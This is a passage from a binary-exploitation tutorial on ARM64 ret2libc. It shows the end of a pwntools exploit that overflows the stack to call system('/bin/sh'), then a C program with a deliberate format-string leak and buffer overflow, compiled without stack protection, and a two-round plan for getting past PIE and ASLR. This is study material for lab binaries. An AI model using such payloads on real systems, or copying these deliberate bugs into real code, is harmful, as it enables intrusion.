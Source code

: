 ```python

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x18 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
p.close()
```

## Ret2lib - NX, ASL & PIE bypass with printf leaks from the stack

```c
#include <stdio.h>

void printfleak()
{
    char buf[100];
    printf("\nPrintf>\n");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
}

void bof()
{
    char buf[100];
    printf("\nbof>\n");
    fgets(buf, sizeof(buf)*3, stdin);
}

void main()
{
    printfleak();
    bof();
}

```

Compile **without canary**:

```bash
clang -o rop rop.c -fno-stack-protector -Wno-format-security
```

### PIE and ASLR but no canary

* Round 1:
  * Leak of PIE from stack
  * Abuse bof to go back to main
* Round 2:
  * Leak of libc from the stack
  * ROP: ret2system
